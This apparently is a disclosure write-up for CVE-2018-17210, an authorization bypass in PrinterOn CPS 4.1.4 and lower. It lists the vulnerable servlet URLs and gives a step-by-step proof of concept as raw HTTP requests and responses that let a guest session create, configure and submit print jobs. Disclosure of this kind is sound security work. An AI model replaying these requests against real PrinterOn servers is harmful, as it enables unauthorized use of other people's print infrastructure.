



# CVE-2018-17210-Authorization bypass on core Print Job components-PrinterOn

The PrinterOn web application, 4.1.4 and lower, does not perform session validation checks on important webpages that manage the Printjob workflow. This allows unprivileged users (guest) to perform actions that would otherwise require the privileges of regular or administrative users within the application.

### Affected Components:

<table>
	<tr>
		<th>Application</th>
		<th>Vulnerable URL</th>
	</tr>
	<tr>
		<td>PrinterOn CPS v4.1.4</td>
		<td>/cps/SelectPrinter</td>
	</tr>	
	<tr>
		<td>PrinterOn CPS v4.1.4</td>
		<td>/cps/servlet/StoreOptions</td>
	</tr>	
	<tr>
		<td>PrinterOn CPS v4.1.4</td>
		<td>/cps/iframe/Submit</td>
	</tr>	
	<tr>
		<td>PrinterOn CPS v4.1.4</td>
		<td>/cps/servlet/SubmitRequestServlet</td>
	</tr>	
</table>

### Evidence:
- Server Configuration:



- No printers shown for Guest/Login Bypass Users:



- Exploit in 4 Steps:

1) Get Job ID:

##### REQUEST 1:

```
GET /cps/servlet/StoreOptions?redirectUrl=SelectOptions&jobDestination=[PRINTER_ID] HTTP/1.1
Host: YY.YY.YY.YY
Cookie: JSESSIONID=[GUEST_COOKIE] 
```

##### RESPONSE 1:

```
HTTP/1.1 302 
Location: /cps/SelectOptions?jobId=[JOB_ID]
Content-Language: en-US
Content-Length: 0
Connection: close
Server: PrinterOn
```

2) Set Job Parameters:

#### REQUEST 2:

```
POST /cps/servlet/StoreOptions HTTP/1.1
Host: YY.YY.YY.YY
Cookie: JSESSIONID=[GUEST_COOKIE] 
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------425617494394984140183030477
Content-Length: 3517

-----------------------------425617494394984140183030477
Content-Disposition: form-data; name="redirectUrl"

SelectOptions2
-----------------------------425617494394984140183030477
Content-Disposition: form-data; name="jobId"

[JOB_ID]
-----------------------------425617494394984140183030477
Content-Disposition: form-data; name="documentURI_file"; filename="evil.xml"
Content-Type: application/octet-stream

<--SNIP-->
-----------------------------425617494394984140183030477
Content-Disposition: form-data; name="documentURI_uri"


-----------------------------425617494394984140183030477
Content-Disposition: form-data; name="poCopies"


-----------------------------425617494394984140183030477
Content-Disposition: form-data; name="PageRange1"

<--SNIP--> 
```

##### RESPONSE 2:

```
HTTP/1.1 302 
Location: /cps/SelectOptions2?jobId=[JOB_ID]
Content-Language: en-US
Content-Length: 0
Connection: close
Server: PrinterOn
```

##### REQUEST 3:

```
POST /cps/servlet/StoreOptions HTTP/1.1
Host: YY.YY.YY.YY
Cookie: JSESSIONID=[GUEST_COOKIE] 
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------87467021316423554081259258406
Content-Length: 911

-----------------------------87467021316423554081259258406
Content-Disposition: form-data; name="redirectUrl"

RequestSubmitted
-----------------------------87467021316423554081259258406
Content-Disposition: form-data; name="jobId"

[JOB_ID]
-----------------------------87467021316423554081259258406
Content-Disposition: form-data; name="poMediaSizeNum"

1
-----------------------------87467021316423554081259258406
Content-Disposition: form-data; name="poDuplex"

Simplex
-----------------------------87467021316423554081259258406
Content-Disposition: form-data; name="poColor"

0
-----------------------------87467021316423554081259258406
Content-Disposition: form-data; name="poOrientation"

AsSaved
-----------------------------87467021316423554081259258406
Content-Disposition: form-data; name="Submit"

CONTINUE
-----------------------------87467021316423554081259258406--
```

##### RESPONSE 3:

```
HTTP/1.1 302 
Location: /cps/RequestSubmitted?jobId=[JOB_ID]
Content-Language: en-US
Content-Length: 0
Connection: close
Server: PrinterOn
```

3) Start Job:

##### REQUEST 4:

```
GET /cps/iframe/Submit?jobId=[JOB_ID] HTTP/1.1
Host: YY.YY.YY.YY
Cookie: JSESSIONID=[GUEST_COOKIE] 
```

##### RESPONSE 4:

```
HTTP/1.1 200
<--SNIP--> 
Content-Length: 6681
Server: PrinterOn

<--SNIP--> 

<h3>Submitting Job</h3>
    </div>
    <div class="jumbotron-contents">
        <div class="standardfont color1 text-center">
            Time Elapsed
            <br>
            00:00
        </div>
        <div>
            
        </div>

        <br>

        <div class="row text-center">
            Submitting your job... please wait.
        </div>

<--SNIP-->  
```

4) Submit Job to Servlet:

##### REQUEST 5:

```
POST /cps/servlet/SubmitRequestServlet HTTP/1.1
Host: YY.YY.YY.YY
Cookie: JSESSIONID=[COOKIE_OBTAINED_FROM_AUTHENTICATION_BYPASS] 
Content-Type: application/x-www-form-urlencoded
Content-Length: 16

jobId=[JOB_ID]
```

##### RESPONSE 5:

```
HTTP/1.1 302 
Location: /cps/iframe/Confirmation?jobId=[JOB_ID]
Content-Language: en-US
Content-Length: 0
Connection: close
Server: PrinterOn
```

##### RESULT:


